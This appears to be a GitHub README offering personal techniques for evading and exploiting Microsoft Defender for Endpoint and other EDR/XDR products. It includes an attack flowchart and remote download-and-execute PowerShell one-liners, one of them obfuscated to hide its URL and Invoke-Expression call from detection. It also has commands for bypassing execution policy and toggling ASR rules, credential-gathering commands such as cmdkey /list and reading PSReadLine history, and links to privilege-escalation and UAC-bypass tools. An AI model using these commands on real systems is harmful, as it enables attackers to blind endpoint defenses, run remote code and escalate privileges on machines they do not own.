 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |fkmde.ps1 --enum| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)
* [Ideas for LPE](#Ideas-for-LPE)

## Enumeration of MDE
### Defender for Endpoint

[fkmde.ps1]([https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1](https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1)) can be run with multiple parameters and modes to suit different use cases and operational environments. Below are the key execution types and their respective usage examples, each catering to specific functionality and user requirements.

  ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope. However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script with the second command.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

## ASR Rules

This section includes Proof of Concepts (PoCs) and scripts to evaluate the effectiveness of ASR rules, which help secure systems by reducing the attack surface for malicious or unauthorized applications.

### officemacro32.docm

**Rules:**
- **d4f940ab-401b-4efc-aadc-ad5f3c50688a**
- **92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b**

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```
  
  ![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

> [!NOTE]
> If Microsoft flags the document due to an untrusted source, right-click the document, go to properties, and select the option to trust the source.


### wmiprocess.ps1 

**Rule:**
- **d1e49aac-8f56-4280-b9ba-993a6d77406c**
  
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)
  
## Smart Screen

A curated collection of Smart Screen test links to evaluate various behaviors, including phishing, malware detection, and exploit blocking.

- [Smart Screen Test](https://commandcontrol.smartscreentestratings.com)
- [Smart Screen Test 2](https://smartscreentestratings2.net)
- [Phishing Test](https://demo.smartscreen.msft.net/phishingdemo.html)
- [Malware Detection](https://demo.smartscreen.msft.net/other/malware.html)
- [Untrusted Download](https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe)
- [Exploit Test](https://demo.smartscreen.msft.net/other/exploit.html)


## Ideas for LPE

The following commands and tools provide potential avenues for exploring local privilege escalation methods. They include registry checks, credential queries, and accessing Windows Subsystem for Linux (WSL) binaries.

```powershell
net accounts
cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

```powershell
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

WSL
```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

https://github.com/antonioCoco/RunasCs
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1
https://github.com/BeichenDream/GodPotato
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe

https://github.com/BlackShell256/Invoke-UAC



